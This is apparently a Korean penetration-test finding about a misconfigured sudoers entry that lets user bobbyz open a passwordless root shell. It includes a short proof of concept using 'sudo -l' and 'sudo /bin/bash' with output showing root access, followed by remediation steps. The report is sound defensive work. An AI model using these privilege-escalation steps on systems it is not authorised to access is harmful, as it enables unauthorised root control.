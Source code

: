 #### 취약점 설명
 - bobbyz 사용자의 sudo 권한을 잘못 설정하여 패스워드를 입력하지 않고 root 쉘 권한을 획득할 수 있는 취약점으로 확인된다.

#### 개념 증명
 - 호스트에서 ssh를 통하여 bobbyz 계정으로 로그인 한 뒤 `sudo -l` 명령어를 사용하여 bobbyz 사용자가 sudo 명령어를 사용하여 /bin/bash 쉘을 루트 권한으로 패스워드 없이 접근 가능한 것을 확인했다. 이후, `sudo /bin/bash`명령어를 사용하여 root 권한의 쉘을 획득했다.
    ```sh
    # sudo -l 명령어를 사용하여 sudo 권한 확인

    bobbyz@ip-172-31-249-155:~$ sudo -l
    Matching Defaults entries for bobbyz on ip-172-31-249-155:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User bobbyz may run the following commands on ip-172-31-249-155:
        (ALL) NOPASSWD: /bin/bash

    # sudo /bin/bash 명령어를 사용하여 root 권한 쉘 획득

    bobbyz@ip-172-31-249-155:/$ sudo /bin/bash
    root@ip-172-31-249-155:/# whoami; hostname; id

    root
    ip-172-31-249-155
    uid=0(root) gid=0(root) groups=0(root)
    ```

#### 대응 방안
 - /etc/sudoers 파일에서 bobbyz 사용자의 NOPASSWD를 제거한다.
    ```sh
    # 수정전
    bobbyz (ALL) NOPASSWD:/bin/bash
    # 수정후
    bobbyz (ALL) /bin/bash
    ```
- /etc/sudoers 파일에서 bobbyz 사용자의 실행가능한 명령어를 /bin/bash가 아닌 필요한 명령어로 변경한다.
    ```sh
    # 수정전
    bobbyz (ALL) /bin/bash
    # 수정후
    bobbyz (ALL) 필요한 명령어
    ```

#### 레퍼런스